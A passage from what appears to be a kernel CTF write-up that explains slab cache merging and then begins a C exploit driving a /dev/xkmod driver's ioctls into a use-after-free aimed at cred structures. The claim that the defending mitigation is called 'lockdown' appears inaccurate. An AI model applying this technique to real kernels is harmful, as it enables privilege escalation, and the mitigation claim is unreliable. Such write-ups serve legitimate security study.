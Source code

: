 - `if (!cache_match_memcg(s, memcg))`It is used to determine whether `memcg` can be matched or not. The original function is returned through multiple judgment checks if a mergeable slab is found;otherwise,`NULL` is returned.

- `kmem_cache_create_memcg() `If the function `__kmem_cache_alias() `finds a slab that can be merged, it will return its `kmem_cache` structure as a return value, otherwise it will create a new slab.

#### Extension

In the new version of the kernel, this attack method is invalid because the cred structure of the new process will have a separate area for application, so a hacker cannot successfully exploit the UAF vulnerability. This new feature is called lockdown.  For details, please refer to [lockdown ](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=aefcf2f4b58155d27340ba5f9ddbe9513da8286d).

### Exp Generation

````
#include <stdio.h>
#include <sys/types.h>
#include <sys/io.h>
#include <sys/ioctl.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <wait.h>

struct param
{
    void *ptr;
    int start;
    int len;
};
struct param *p;

void alloc(int fd)
{
    ioctl(fd, 0x1111111, p);
}

void rd(int fd)
{
    ioctl(fd, 0x7777777, p);
}

void wt(int fd)
{
    ioctl(fd, 0x6666666, p);
}

int main(int argc, char const *argv[]){
	int fd1 = open("/dev/xkmod", O_RDONLY);
	int fd2 = open("/dev/xkmod", O_RDONLY);
	if(fd1 < 0){
		puts("[*]open error!");
        exit(0);
	}
	puts("[*]alloc from cache");
	
	p = malloc(sizeof(struct param));
	p->ptr = malloc(0x100);
	alloc(fd1);
    close(fd1);
    
````